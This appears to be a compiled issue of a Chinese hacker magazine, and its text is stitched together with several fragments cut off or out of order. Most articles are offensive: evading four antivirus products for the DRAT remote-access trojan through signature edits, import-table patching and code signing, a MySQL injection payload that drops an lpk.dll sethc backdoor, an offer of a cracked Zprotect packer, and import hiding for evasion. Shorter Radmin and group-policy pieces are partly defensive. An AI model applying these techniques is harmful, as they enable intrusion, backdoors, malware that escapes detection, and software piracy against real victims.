很久很久以前网上流传着一个传说：江湖中四大高手东邪、西毒、南帝、北丐分别代表着国外四个不同的杀毒软件。

- 1. 麦咖啡就像东邪，玉树临风，俊朗潇洒，对敌招式繁多，机关重重，杀伐决断，从不迟疑。为江湖第一机智聪明之人，但因其心机太深，令人难以捉摸。
- 2. 卡巴斯基就好像西毒，凶猛强悍，神功盖世，对敌决不留情，出手狠辣，招招夺命，绝少失手，不愧为一代枭雄，但毕竟练的不是纯正内功，容易走火入魔，导致系统出问题。
- 3. 诺顿就像南帝，雍容华贵，稳沉厚重，胸怀博大，练的是纯正内功，靠的是教化感人，对敌有慈悲心肠，一般采取隔离教化，使其不再作恶，很少杀人，称得上是一代宗师，但因其过于敦厚，不仅自己活得累，别人也为他感到累。
- 4. NOD32就像北丐，来无影去无踪，潇洒洒脱，笑傲江湖。对敌用的是逍遥游和打狗棍法，江湖上少有对手，但因其过于轻浮，难免误事。

记得上一次和这四大杀软交手已经是三年前的事情了。当时用来测试的远控是PCShare，使用的方法是最为原始的特征码免杀。如今各种查杀技术、免杀技术不断的推陈出新，很多新技术甚至闻所未闻。所以出于学习探索的精神，我决定再会会这四大高手。这回用的远控是暗组的DRAT 5.0，为new4于2010年12月在论坛发布的版本；使用的技术依旧是特征码免杀。

第一个对手是东邪：麦咖啡。说实话黄老邪的表现让我挺失望的。老规矩MyCCL定位特征码。相信大家都很熟悉了，不过有个小细节也许会对免杀有一点帮助，就是填充的地方把默认的填充00改为填充其他的数值，如图1。在免杀的过程中有的杀软专门会对这个选项做干扰的。


图1

特征码定位出来之后发现是一个ASCII字符，直接在C32Asm里进行大小写翻转后就躲过麦咖啡的查杀了。把麦咖啡的监控全开运行了我们的远控服务端，小马在麦咖啡毫无反应的情况下默默的上线了。

初战告捷，但我不敢掉以轻心。接下来的对手是杀毒软件中公认的霸王：西毒卡巴斯基。测试用的杀软版本是卡巴斯基安全部队2012（很嚣张的名字啊……）定位方法依旧是使用MyCCL定位特征码。卡巴斯基依旧很卡，经过了痛苦的定位之后，特征码只有一个，位于输入表的ZwUnmapViewOfSection函数。这是很棘手的一种情况，输入表的特征码是不能乱改的，一不小心就会造成程序崩溃。在这里先科普一下：输入表也称之为“导入表”。平时当一个程序运行时，导入函数是被程序调用执行的，其调用的代码并不在主程序中，而是一小部分函数，其真正的代码却在DLL文件中。EXE主程序要找到这些需要导入的函数就要借助于“输入表”了，输入表就相当于EXE文件与DLL文件沟通的钥匙，所有的导入函数信息都会写入输入表中。在PE文件映射到内存后，Windows将相应的DLL文件装入，EXE文件通过“输入表”找到相应的DLL中的导入函数，从而完成程序的正常运行。

所以在这处特征码上程序调用了系统ntdll.dll中的ZwUnmapViewOfSection函数，如果还是像之前的大小写翻转的话肯定是无法正常运行的。常见的输入表免杀方法诸如函数移位、加密输入表、重建输入表、将修改调用的dll后的“.”改为90、破坏特征等方法在卡巴的高启发杀毒机制下均告失败，简直就是追魂夺命千里寻踪。

难道真的没办法对付卡巴了吗？非也！仔细想想杀毒软件查杀病毒的原理：表面上卡巴是查杀ZwUnmapViewOfSection的位置，但是如果一个正常的文件也调用了ZwUnmapViewOfSection函数的话，是不是卡巴也会去进行查杀呢？答案当然是否。虽说卡巴名为西毒，但是也不至于蛮不讲理乱杀无辜吧。所以肯定是我们的小马在调用这个函数的时候行为上让卡巴大叔看不顺眼了。所以用OD导入目标文件，点击右键选择查找——当前模块中的名称（标签）。这时候就可以看到所有调用的函数了，拉到最下方可以看到ZwUnmapViewOfSection，选中后按回车就可以看到是哪里调用了这个函数了。如图2。

```
00413C34  FF25 6C754100  JMP DWORD PTR DS:[<&ntdll.ZwUnmapViewOfSection>]
```

在OD的信息窗口可以看到如下信息：

```
DS:[0041756C]=7C92DEF0 (ntdll.ZwUnmapViewOfSection)
```

本地调用来自00413D12，我们来到00413D12这处地方后可以看到其代码为：

```
00413D12  E8 ?????????  CALL <JMP &ntdll.ZwUnmapViewOfSection>
```

要对付老毒物就要用到狠招！在这个特征码上我采用的修改方法有很大的副作用。首先将：

```
00413D12 的 CALL JMP &ntdll.ZwUnmapViewOfSection 改为 CALL 7C92DEF0
```


改为CALL 7C92DEF0，也就是直接用硬编码的方式，直接从操作系统里的ntdll.dll中查找ZwUnmapViewOfSection函数；接下来把00413C34地址的JMP DWORD PTR DS:[<&ntdll.ZwUnmapViewOfS>修改为retn。为什么要这么改呢？各位看官仔细回想下，虽然实际上是00413D12这个地址调用了ZwUnmapViewOfSection之后加上一些其他的行为导致卡巴大叔对其进行查杀，但是在表面上（姑且让我这么去形容）卡巴还是杀00413C34这个位置的。所以我们要把它修改掉。当然直接nop肯定是行不通的，这样程序整体就会被破坏掉了，所以我们在这改为retn进行返回，这样程序就不会出错了。至于我之前说的副作用是什么呢，因为里不同操作系统的硬编码地址一般都是不一样的。所以我这样一修改后，无疑是让这个远控只能运行在我做免杀的这个操作系统版本下了。当然如果在拥有源码的情况下，我们可以通过判断目标操作系统版本号去选择相应的硬编码地址，但是现在的情况自然是没有远控的源码了，所以除了这招之外我想不到其他更好的方法进行杀毒软件高启发引擎下的输入表免杀了，哪位朋友有更好的方法的话还请多多指教。

文件免杀做好之后，还不能过早的庆祝胜利。因为卡巴最强悍的地方是他的主动防御。虽然文件已经免杀了，但是开着卡巴监控的情况下运行木马，卡巴还是会对其进行拦截；提示是“正在启动可能会造成损害的软件，没有数字签名，危险级别较高”如图3。既然有了这么明显的提示框了，那我们就给生成的服务端加个数字签名吧。使用数字签名工具对木马处理后，再次运行，卡巴大叔果然不再进行拦截了。试了下功能无损，不卡不弹窗。

成功阻击两大高手，接下来当然要乘胜追击了。下一个目标是有南帝之称的杀毒软件——诺顿。还是用MyCCL进行特征码定位。但是很神奇的事情发生了：杀软居然一个样本分块也不杀！传说中杀毒软件高启发干扰定位的特征之一就是所有的样本都不查杀。为此我还特意的换了个特征码定位器multiCCL。结果事实证明是我疏忽了，诺顿根本就不查杀我们的小马！那一刻我彻底折服了——！难道诺顿真的像南帝一样拥有着慈悲心肠不杀我们的吗？但接下来的事实就让人大跌眼镜了：开着诺顿的防护运行小马后，小马没有像预期那样消失不见，客户端也没有提示上线。过了几秒之后右下角弹出了个警告窗口“SONAR已删除风险222.exe”如图4。原来是诺顿的主动防御在搞鬼。这回没办法对其进行定位了，但是我们还有杀招：数字签名。依旧对生成的服务端加个数字签名，不能是复制的签名，因为复制其他软件的数字签名诺顿也是会杀的。加好了数字签名后，在诺顿的防护下运行小马，果然这回不报毒了，小马正常上线。在这里顺带提一下，有的同学也许会偷懒直接对DRAT里的server.dat去加数字签名，这样做是行不通的，生成的服务端会因为文件被修改而造成数字签名失效。所以必须要生成了一个正常的服务端后再对其进行数字签名。


图4

最后要过的杀软是北丐：NOD32。依旧是老方法MyCCL定位目标文件，可是定位来定位去渐渐的发现情况不对了……NOD32把生成的样本全杀了！这是NOD32的高启发引擎搞的鬼，百度了下貌似MyCCL已经被NOD32给吃透了，所以这里得换个特征码定位工具。我用的是multiCCL，在设置定位精度的时候把精度设置为10，因为NOD32的高启发干扰性比较强，所以把精度设置得低一点。经过再次定位之后终于得到了真实的特征码。在C32Asm里查看了下发现又是定位到了输入表里，但是NOD32明显比卡巴要狠，定位到了两个函数上：CopyFileA和CloseHandle。单独删掉其中的一个函数NOD32还是会杀的，必须两个都填充掉才可以躲过NOD32的追杀。在这里依旧是使用对付卡巴的特征码修改方法进行修改，由于调用了CloseHandle的地方比较多，所以这个特征码改起来是个体力活——！经过辛苦的修改之后，NOD32终于对我的小马网开一面了。

到这里整个免杀过程就全部结束了。鏖战四大杀软的结果是：伤敌一千自损八百。小马只能在指定的操作系统上线，但是幸运的是功能无损，而且主动防御也能顺利的绕过去。至于文章里遗留的问题，还望有哪位大大能够多多指点迷津。

## 利用mysql注入点直接提权

关于MSSQL下的sa权限提权，大家都知道，那么MySQL下的提权呢？这次我给大家带来的就是通过mysql注入点直接提权。

我提供的这种方法相对来说条件较为苛刻，不过在这就是一个思路，可能在你入侵受阻的时候真的能帮到你。闲话少说，我们先来看下这个注入点的要求：

- 1. magic_quotes_gpc 为 off
- 2. 可以写文件，最好有任意目录的写权限
- 3. 最好有读文件的权限，但如果真没有也行
- 4. 注入点需要是POST方式的（这样可以一次post 128KB大小的文件）

为什么需要这么几个条件，后面我会详细的说。先说下我的思路，大家都知道，mysql也是可以写文件的，但大家可能更多的是用在写一个shell出来，其实我们也可以考虑写入一个其他类型的文件，比如exe、dll，这里我的思路就是通过dll方式来提权。先介绍一个Rices先写的工具：Tools_Lpk_Sethc。简单的说，通过该工具生成的dll文件，放在一个有exe文件的目录，那么等这个exe文件执行后，系统就被安装上了sethc后门，关于该工具的具体用法，同学们可以百度一下。我就是想通过mysql的dumpfile方式，将这个lpk.dll文件写到一个存在exe的目录，等这个exe执行后，我们就提权成功了。这就是为什么我们需要magic_quotes_gpc为OFF，因为这样我们才可以写文件，而可以写的目录越多那么成功率自然越大。为什么要有读权限？因为我们并不知道目标网站的结构，也不知道哪里存在exe文件，那么我们可以先读取一些比较常见程序的安装目录下的敏感文件……因为这个dll虽然不大，但远远超过了GET的大小，所以需要是POST方式的注入点。

首先本地构造一个注入点……先打开navicat，连接上mysql，打开任意一个数据库，然后选择“查询”，如图1。


```sql
select hex(load_file('f:/lpk.dll')) into outfile 'f:/xxoo.txt';
```

其中f:/lpk.dll就是dll文件的位置，后面则是十六进制方式输出的文件……大小为118KB，虽然增大了不少但还在安全范围（128KB）内。

```
http://127.0.0.1/1.php?id=1
```

放到穿山甲中试试，跑出来的结果如图2，POST类型的注入，magic_quotes_gpc为off……接下来就是注入了。

这里我们要写个简单的html文件来提交，毕竟那个十六进制字符串的文件有118KB呀。写好的html代码为：

```html
<form action=http://127.0.0.1/1.php method=post>
<textarea name=id cols=120 rows=10 width=45>这里填lpk的二进制代码</textarea><BR><center><br>
<input type=submit value=提交>
```

用浏览器访问为图3。接下来就是写入代码啦：

```sql
' and 1=2 union select unhex('******') into dumpfile 'F:/Navicat Premium V8.2.19/Navicat 8.2.12/Navicat 8.2.12'
```

Unhex里为lpk的十六进制……然后去该目录查看，发现lpk已经安静地在那里躺着了。这样我们再运行一下Navicat……如图4。到此，我们的后门就安装成功了。


这种方式的提权需要的条件较为苛刻，还需要一点运气，不过入侵就是这样，多学一种方法在入侵的时候就多一条路……另外本文的工具我会一起打包给大家。

> （文章中涉及的相关工具本期光盘已收录）

## 加壳？用这个！—— Zprotect

作为叉子，我们会写很多程序，但是为了保护程序，加壳常常是有必要的。而我今天给大家推荐一款加壳的工具 Zprotect，蛮好用的！

Zprotect 是新一代的软件加密保护系统，拥有多项革命性的创新技术。设计用来保护软件产品不被破解，减少由于盗版带来的经济损失！此外，Zprotect 拥有简单易用的许可控制系统，用户无需更改任何代码，即可为软件添加注册机制。与传统软件保护系统相比，Zprotect 更加注重对代码的处理，并且拥有良好的稳定性和兼容性。所以，我将本款软件介绍给叉子们，不得不说，这是一个保护软件的好选择，大家可以进行一下简单的尝试！我给大家提供了本软件新版本的破解版，V1.6.0.0。（图1）


还记得 2011 年 1 月刊上刊登过一款免费的保护工具，但功能自然没有免费的工具那么强大。所以，倒不如使用收费工具的破解版，提高一些安全性！

注：虽然这个壳的确很强大，但是也有更高技术的人来破解，有商业用途的叉子不建议直接使用本软件进行保护，应当配合自己写的相关反盗版程序最佳！但作为一般的软件程序保护，这个工具已经很强大了，基本可以满足叉子们的需求！但我不建议将此软件用于商业用途！

- 本保护工具支持的文件格式有：EXE、DLL、SCR、OCX；
- 支持的编译器：ASM、Delphi、Borland C++ Builder、Visual C/C++、Visual Basic；
- 支持的操作系统：32 位 Windows 98/Me/NT/2000/XP/2003/Vista 及其对应 64 位版本。

工具有很广泛的支持，叉子们无需担心自己编译出来的程序不被这款软件支持，无法实现保护了。现在常见的编译工具都在其内。（有人就问了，如果我用易语言写程序，是不是就不行了呢？哈！你可以用 PEID 查个壳，他会告诉你编译工具是 VC，况且，我想没几个人用的是正版的吧，易语言静态链接一般都是使用 VC 的链接器来实现的，所以易语言写出来的程序就可以当做 VC 写出来的程序用了！）

### 一、Zprotect 拥有以下的一些优点：

- 1. **兼容性**：Zprotect 全面支持市场上主流的 32/64 位 Windows 操作系统，能够稳定运行于 Intel/AMD 各种 32/64 位及多核处理器；绝大多数加密后的程序均可正确运行。
- 2. **加密强度**：VISO 代码混淆引擎、VM 虚拟机加密和代码乱序三大引擎，可以较为全面地保障软件安全。
- 3. **运行效率**：没有海量的垃圾代码，只有极致的解码引擎，能够较快完成指令解析，几乎没有太多的效率损失。

### 二、反破解加密技术特性：

Zprotect 拥有多项独创的新颖技术，使保护后的文件较为复杂，让破解变成一种高成本的体力劳动，有效保护软件产品不被破解，减少由于盗版给您带来的经济损失：

- 1. **虚拟机加密**：拥有完全自主知识产权的 VM（虚拟机）加密引擎，将保护后的代码放到虚拟机中执行；创新的指令系统，完全不同于现有的 x86 指令，有效阻止代码还原及分析。
- 2. **支持 Lua 脚本**：Zprotect 提供了 Lua 脚本支持，便于您扩展 Zprotect 的功能，快速实施自定义加密保护方案。
- 3. **多线程协同保护**：双进程模式，多个守护线程共同保护加密后的程序，让调试保护后的文件变得较为困难。
- 4. **动态代码结构**：引擎每次编译生成的保护文件均不相同，从理论上杜绝通用脱壳机和脱壳脚本的出现。

## 三、注册和许可管理特性：（图4）

同时，Zprotect 还为用户提供了注册授权系统，很方便，易用，我自己写的一些程序就直接用这款工具做注册码了。该工具提供一键试用技术，不必修改任何源代码，在短短几分钟之内就可以将完整版软件转换为“先试用后购买”的试用版软件，甚至还可以支持带硬件锁定的序列号注册。


图4

- 1、内建注册和许可管理系统：Zprotect 内建灵活易用的注册和许可管理系统，您可以轻松创建具有时间限制、硬件锁定、水印信息的注册码。
- 2、动态算法生成引擎：外壳所使用算法均动态生成，随机且唯一，让逆向算法变得困难和高成本。
- 3、时间限制注册码：如果需要限制注册版本的有效期，可以通过创建具有时间限制的注册码来实现。
- 4、硬件锁定（一机一码）：激活硬件锁定功能的注册密钥，只能在某一特定计算机上使用；可以通过锁定用户计算机的……

- 5、高效的代码乱序引擎

代码乱序可以将代码分散变形，改变代码段的原始形态，让阅读和分析反编译后的代码更加困难。

- 6、代码完整性校验

运行后实时保护，让修改代码动态破解变得困难。

- 7、反函数挂钩

Anti-Hook 技术可以有效保护文件不被外部程序挂钩函数，例如外挂程序。

- 8、强制内存保护

实时监控主文件内存，禁止第三方程序操作主要内存，防止内存补丁的出现。

- 9、代码和资源压缩

除了加密保护，Zprotect 还可以压缩软件产品的代码和资源，减少网络传输带宽占用，加速网络下载。（刚才那个木马，保护之前 7.08MB，保护后则变成了 4.73MB，且运行正常无误！）

#### 四、命令行版本

Zprotect 提供了一个特殊的命令行版本，您可以将这个版本集成到您的编译器，这样就可以快速实施自动化的保护方案。命令行版本的文件名是 Zprotect_con.exe，位于根目录下。（图6）


图6

```text
zprotect_con.exe -pf <项目文件> <输入文件> <输出文件>
```

- 项目文件：由图形界面版本生成，用于保存保护选项的参数；
- 输入文件：要保护的可执行文件；
- 输出文件：要保存的文件。

使用命令行版本之前，必须先使用图形界面版本创建项目文件。

#### 五、试用

介绍了这么多，大家应该有了一个较为直观的印象，那么现在，我就为大家做一次使用演示，教给叉子们一些基本的使用方法，也展示一下 Zprotect 强大的加密保护功能！

## 傻瓜黑客

以“转换大师120.exe”为例进行保护实验！首先，在左侧“加密设置”里找到“文件信息”标签，在右边的“要加密的文件”右边点击打开，选择你要保护的应用程序。Zprotect 此时便会为你自动分析文件。（图7）


完成后，再在左边“加密设置”点击“常规选项”，我们只用编辑右边“常规设置”里的一些配置。首先选中加密导入表（导入表是 PE 文件的必要组成部分，用于引导 PE 文件导入所需的 API 函数；加密输入表可以在一定程度上防止破解者还原导入函数的功能）。之后选中区段名称，让程序自动随机一个区段（自定义入口区段的名称，最长不超过 8 个字符）。接着我们再点加密调用代码选项，此时，程序开始自动加密代码，稍等片刻，等加密窗口消失便可（加密调用代码的 Call 指令。）（图8）


接着，再在左边“加密设置”点击“高级选项”，在右边的窗口里大家能看到反函数钩子和 Viso 保护模块，我们也只配置这两项，在反函数钩子这里点击“启用”，再点击“使用默认设置”，完成后再在下面的“VISO 保护模块”中点击启用，程序也会自动开始分析，我们稍等即可。（反函数钩子将选定的 DLL 代码移动到随机的地址运行，防止被挂钩。默认设置：模块 kernel32.dll、user32.dll、ntdll.dll 会被默认反挂钩。）（图9）

做完这些，程序的加密设置就完成了，但稍安勿躁，我再接着演示一下 Zprotect 的注册机制。在左边“授权系统”里找到“使用控制”并单击，先选择“启用授权功能”选项，我在“试用方式”中选择了“机器码+KEY”方式，这个可以自行确定。左边的“硬件锁定”里，我选择了“硬盘序列号”“CPU 类型”“BIOS 信息”这三项。（同样可以根据不同的安全要求自定义 MAC 地址、操作系统信息）（图10）


一切搞定，我们在左边找到“应用保护”里的“立即保护”，根据作好的设定保护应用程序，点下方的“保护”按钮即可，稍等片刻，保护便完成了。（图11）


我们来试着运行一下保护后的程序（图12），程序运行一切正常。各位可以在光盘里找到例子文件。


讲了这么多，你是否心动了呢，来试试吧！

## 巧设密码伺门，
让 Remote Administrator 随用随开

郭建伟

在众多的远程控制软件中，Remote Administrator 可谓鼎鼎大名，在实际的网络管理中应用得很广泛。因此 Remote Administrator 成了入侵者攻击的重点目标，因为在默认情况下，Remote Administrator 没有设置连接密码，任何人都可以连接远程主机。即使设置了密码，如果密码设置得简单的话，也很容易被猜解出来。即使对于复杂的密码，利用 Radmin 软端提权技术，也不难将其攻破。黑客通过向服务器上传 ASP 木马，读取注册表中的“HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters”分支，将其中的“Parameter”中保存的加密散列提取出来，之后将其转换成十六进制数值，然后使用经过修改的 Radmin 客户端即可连接远程机了。

面对针对 Remote Administrator 的安全威胁，除了设置复杂的密码外，最好的办法就是在自己需要使用的时候才开启 Remote Administrator，使用完毕后立即关闭 Remote Administrator，不给入侵者以可乘之机。使用有了 Shutter 这款免费软件，就可以轻松解决上述难题。下载地址：http://download.cnet.com/Shutter/3000-2344_4-146858.html。

Shutter 本身是一款关机控制软件，允许您设置各种关机条件，例如倒计时关机、定时关机、CPU 占用率监控关机、进程监控关机、窗口监控关机、笔记本电池电量监控关机等等，这里我们主要谈谈其远程控制功能。在 Shutter 主窗口中点击“Options”按钮，在设置窗口的“Web Interface”面板（如图1）中勾选“Enable”项，激活其远程控制服务功能。

在“Listen IP”列表中选择本机的 IP 地址，在“Listen Port”栏中设置端口号（默认为 80）。在“Username”栏中输入用户名，在“Password”栏中输入连接密码。您一定要牢记该密码，只有通过该密码，才可以对目标主机“发号施令”！注意必须勾选“Allow command line execution?”项，这样您就可以在远程执行各种控制命令。点击“Save”按钮保存配置。

之后在任意联网的电脑上打开浏览器，在地址栏中输入“http://X.X.X.X:Y”，其中“X.X.X.X”表示目标机的 IP，“Y”表示端口号，如果采用 80 端口，则忽略端口号。如果您懒得记忆目标机的 IP，可以在目标机上事先安装花生壳等软件，为其申请动态域名。这样只要访问目标机的动态域名即可，具体的操作这里就不再赘述了。当访问该地址后，在弹出的认证窗口（如图2）中输入预设用户名和密码，点击确定按钮，即可进入 Shutter 远程控制页面。


图1

在其中的“Choose Action”栏（如图3）中依次选择对应的控制项目，可以执行针对远程主机的关机、重启、注销、锁定、进入睡眠状态、休眠、挂起、关闭监视器、静音、弹出警告信息等动作类型，之后点击“Execute Action”按钮，就可以向远程主机发送相应的控制命令。点击页面底部“Information on Computer”链接，可以取得目标机的当前状态信息，包括当前登录者名称、该机运行的时长、当前 CPU 占用率、进程列表等。点击“Screen of a Desktop”链接，可以远程抓取目标机的屏幕截图。点击“Close the Program”链接，可以结束目标机上的 Shutter 程序。


图2

如果您使用的是 Remote Administrator 远程控制软件，那操作起来就更加容易了。我们知道，在服务器上安装 Remote Administrator 之后，会创建名称为“r_server”的服务，可以跟随系统自动运行。

### 深入浅出软件限制策略

郭建伟

在 Windows 环境中，有时出于系统安全的考虑，往往需要限制某些软件的运行。利用 Windows 的组策略，就可以有效控制软件的运行权限。例如是否允许特定程序在系统中运行，是否允许用户打开指定的文件、控制软件限制策略应用的用户范围等。一般来说，软件限制策略使用特定的规则，来标识和控制软件的运行方式，例如通过哈希规则、证书规则、路径规则、Internet 区域规则对程序进行标识，进而控制软件的运行状态。

“创建软件限制策略”即可（如图1）。软件限制策略分为“不受限”和“不允许”两种安全级别，前者允许软件在正常登录情况下运行，后者不允许软件运行。一般来说，组策略允许对默认的安全级别另作安排，例如默认的安全级别是“不允许”，用户完全可以为其指定一个新的规则来允许软件运行。对于同一个软件可以使用多个规则，并有具有最高优先级的规则来指定软件是否运行。在组策略中选择“软件限制策略”项，在右侧窗口中双击“强制”项，在其属性窗口中可以对作用的用户群进行限制，建议选择其中的“除本地管理员以外的所有用户”项。此外，因为软件可能使用到多个 DLL 文件，如果对所有的软件文件都进行限制，就会影响到其它正常的软件运行，因此需要选择“除去库文件之外的所有软件文件”项。点击“确定”按钮保存设置即可。

### 配置软件限制策略

在“开始”→“运行”中执行“gpedit.msc”命令，打开组策略编辑器。在其中依次展开“用户配置”→“管理模板”→“系统”，在右侧窗口中双击“不要运行许可的 Windows 程序”，在其属性面板中选择“已启用”项，在“不允许运行的应用程序的列表”列中点击“显示”按钮，在“显示内容”窗口中点击“添加”按钮，选中需要禁止运行的程序即可。这是大家都很熟悉的操作方式。其实，Windows 的软件限制策略的内容很丰富，下面就通过举例来深入限制软件策略。这里设定在网络环境中，服务器上安装的是 Windows 2003 Server，在其上配置了活动目录。点击“开始”→“程序”→“管理工具”→“Active Directory 用户和计算机”，在活动目录管理窗口的左侧列表中选中域名，在其右键菜单中点击“属性”，在打开的窗口中选择“组策略”面板，在“组策略对象链接”栏中双击“Default Domain Policy”项，打开组策略编辑窗口，在其左侧列表中展开“计算机配置”→“Windows 设置”→“安全设置”分支，在其下的“软件限制策略”项上点击右键，在弹出菜单中选择


图1


图2

### 哈希规则配置

哈希规则通过对程序进行哈希算法计算，以生成唯一的进程表示字符串，当用户运行该软件时，软件限制策略会自动将其的哈希值和策略中已有的哈希值进行比较，如果两者相同，则允许程序按照预设的方式运行。在上述组策略右侧窗口中的“其它规则”项的右键菜单上点击“新建哈希规则”，在弹出的窗口（如图2）中点击“浏览”按钮，选中需要限制的程序，之后在“文件哈希”栏中即可看到该程序的哈希值，在“安全级别”栏可以选择“不允许”或者“不限制的”项。这里假设选择“不允许”项，保存设置之后，当客户端登录到服务器后，试图运行该程序时，系统就会弹出不允许运行的提示信息。


图3

### 证书规则配置

证书规则指可以通过数字签名来表示软件，在 Windows 2003 中可以启用证书服务来申请证书，将该证书和软件进行绑定，同时指定安全级别来设置软件的运行方式。这样，只有具有指定证书的程序才可以在网络中运行，否则，则作为非法软件禁止运行。

一般的软件都没有绑定证书，如果在 Internet 上申请证书，就存在证书过期的问题。因此我们需要在局域网中建立一个证书服务器，在申请证书之前，首先确保在 Windows 2003 中安装了 IIS 组件。在控制面板中打开“添加删除程序”窗口，在其中点击“添加删除 Windows 组件”按钮，在 Windows 组件向导窗口中勾选“证书服务”项，点击“下一步”按钮完成证书服务的安装操作。当然，证书服务必须在域环境中才能安装。之后在“管理工具”窗口中双击“证书颁发机构”项，在证书管理窗口（如图3）左侧的列表中展开预设的机构名称分支，在其下的“证书模板”项的右键菜单中点击“新建”→“要颁发的证书模板”项，在打开的窗口中的证书模板列表中选择“代码签名”项，点击确定按钮即可申请证书。然后在浏览器中输入网址“http://localhost/certsrv”，在申请证书页面中选择“申请一个证书”链接，接着点击“用户证书”链接，之后点击“更多选项”链接，接着点击“高级证书申请使用窗体”链接，在“高级证书申请”页面（如图4）中的“证书模板”列表中选择“代码签名”项，其它选项保持默认即可，点击“提交”按钮，在弹出的页面中出现“安装此证书”链接，这样证书就安装成功了。


图4

当需要将程序和已经申请的证书进行绑定操作的话，需要使用微软提供的“signcode.exe”文件签名工具（下载地址：http://www.cnblogs.com/Files/babyt/SignTool.rar）。将下载文件解包后运行其中的“signcode.exe”程序，在数字签名向导界面中点击“下一步”按钮，在文件选择窗口中点击“浏览”按钮，假设选择“Winrar.exe”文件，在“签名选项”窗口中选择“典型”项，在“签名证书”窗口点击“从存储区选择”按钮，在“选择证书”窗口可以看到已经申请成功的证书了。点击“查看证书”按钮，在“证书”窗口中可以浏览证书的详细内容。在“选择证书”窗口选中所需证书，之后一路点击“下一步”按钮，即可完成程序和数字签名的绑定操作了。之后在资源管理器中选中“Winrar.exe”文件，在其属性窗口中就会多出“数字签名”页签。

## 傻瓜黑客

“数字签名”面板，说明该程序已经拥有了证书了。那么如何进一步使用软件限制策略使用该证书呢？在“Winrar.exe”文件属性窗口中的“数字签名”面板中点击“详细信息”按钮，在打开的窗口中点击“查看证书”按钮，在“证书”窗口的“详细信息”面板中点击“复制到文件”按钮，系统弹出“证书导出向导”窗口，在“导出文件格式”窗口中选择证书的格式，在“要导出的文件”窗口中点击“浏览”按钮，确定文件的保存路径，之后完成导出操作。在上述组策略右侧窗口中的“其它规则”项的右键菜单上点击“新建证书规则”，在新建证书规则窗口（如图5）中点击“浏览”按钮，选中刚才导出的证书文件，在“安全级别”栏中可以选择“不允许的”或者“不受限的”项，这里选择“不允许的”项，点击确定按钮即可保存设置。

允许对使用软件的注册表路径设置规则，因为路径规则限制策略是按照软件所在的路径设定的，因此当软件移动之后，该软件限制策略将不再发挥作用。在上述组策略右侧窗口中的“其它规则”项的右键菜单上点击“新建路径规则”，在“新建路径规则”窗口（如图6）中点击“浏览”按钮，选中需要限制的软件，在“安全级别”栏中选择合适的安全级别即可。

### 路径规则配置

路径规则指可以对软件所在的路径设置标识信息，此外还

### Internet区域规则

Internet区域规则适用于Windows Installer软件安装包，可以标识IE所指定区域中的软件，包括本地Intranet、受限站点、信任站点等。在上述组策略右侧窗口中的“其它规则”项的右键菜单上点击“新建Internet区域规则”项，在打开的窗口中的“Internet区域”列表中选择程序安装包所在的位置。当然，该规则只针对安装包有效，在“安全级别”列表中选择合适的安全级别即可。

冷夜 [BHST]

#### 一、前言

免杀中，杀软经常盯上的几个位置里，常常会发现输入表的影子。闲来动手尝试一下手工隐藏输入表的方法，网上已经有利用，我也是作为测试，把过程记录下来与大家分享。

## 二、利用的关键函数

实现输入表隐藏，需要kernel32.dll中两个很常用的函数：LoadLibraryA和GetProcAddress。LoadLibrary函数作用为将指定的可执行模块映射进调用进程的地址空间。

进程的地址空间。可以这样看：我们把一个dll文件丢给LoadLibrary，让它返回给我们dll的句柄，有了这个句柄，我们就进一步利用之找到dll中的函数。不难发现，LoadLibrary需要一个参数，就是dll文件名，返回值为模块句柄。

GetProcAddress函数返回指定的输出动态链接库内的函数地址。英汉互译一下很简单：就是取得（Get）函数/过程（Proc）地址（Address）。

可以这样看：我们通过LoadLibrary得到dll的模块句柄，现在我们要得到dll里面某个函数的地址，就将函数名称丢给这个函数，GetProcAddress就忙里忙外地搞定这个函数地址，返回给我们。同样可以看到，GetProcAddress需要两个参数，一是dll的模块句柄，另一个是要查看的函数名称，返回值便是此函数的地址了。

知名的小软件。我们要隐藏的函数就是shell32.dll下的ShellExecuteA，这个函数与WinExec功能类似，都是调用外部程序执行。软件中就多处调用，比如通过这个API函数直接打开系统自带的cmd命令提示符窗口。如图1。

### 三、如何利用

知道了上面两个关键函数，我们实际怎样实现隐藏过程呢？总不能直接和函数说：Hi，老兄，帮我隐藏一下输入表吧，它们听不懂。那么我们要做的就是：一步一步地指点函数执行。

大家知道PE程序文件存放在磁盘下，是有一定结构的。因为这些结构，只认识01的计算机才知道这个文件是不是PE可执行程序。把程序看成一个简单的文件，它们也不过是一串和我们文档一样的01。01我们看不懂，我们可以看16进制。然后我们就请来C32Asm查看程序的16进制。

但不得不说，有些朋友可能还不知道，输入表是什么？输入表也被称为“导入表”。我们常会看见一些大型软件有很多的动态链接库文件（DLL文件），这些文件中有很多导入函数，这些函数不会直接被执行。当一个程序（EXE）运行时，导入函数是被程序调用执行的，其执行的代码是不在主程序（EXE）中的一小部分函数，真正的代码在DLL文件中。那么EXE主程序是如何找到这些需要导入的函数呢，这就要归结于“输入表”了。

输入表就相当于EXE文件与DLL文件沟通的钥匙，所有的导入函数信息都会写入输入表中。在PE文件映射到内存后，Windows将相应的DLL文件装入，EXE文件通过“输入表”找到相应的DLL中的导入函数的地址，从而完成程序的正常运行，这一动态连接的过程都是由“输入表”参与的。

既然这样，输入表必然是在程序自身文件中了。我们要隐藏输入表中的函数，就要在文件中把要隐藏的输入表函数的内存指针给砍掉，但在软件启动时自动恢复。

那么怎么查看输入表是否有此函数呢？拿出Stud_PE看一下吧，如图2。很容易看到，在shell32.dll下有个导入函数为ShellExecuteA，此函数对应的内存指针存放在程序偏移地址为001048A0的地方。既然输入表是文件的一部分，那么这个调用的函数在C32Asm中必然也可以找得到。通过Ctrl+F搜索，找到如图3之处。

我们记录下这几个地址：要调用的dll文件名为shell32.dll，文件偏移地址是00103966；要隐藏的API名为ShellExecuteA，文件偏移地址是00103988。但是要知道，我们手工修改的方式是通过程序启动时修改代码，这样我们需要得到这两个文件偏移地址对应的内存地址。这个用偏移量转换器OD就可以解决。得到两个地址分别为00506766和00506788。收集的这些信息还是不足以实现，缺什么呢？当然是LoadLibraryA和GetProcAddress这两个函数了。

### 四、动工

我们在C32Asm中打开测试的目标程序，一个自己写的不……

它们执行的，所以我们要得到的是这两个函数对应的内存指针地址，从而方便调用。这个也好解决，将程序载入到OD中，按下Ctrl+N找到“模块中的标签窗口”。在这里找到LoadLibraryA和GetProcAddress函数的内存指针地址，分别是005042BC和005041CC，如图4。有了这些，还缺少什么呢？不知道？那么我们的目的是修改什么呢？

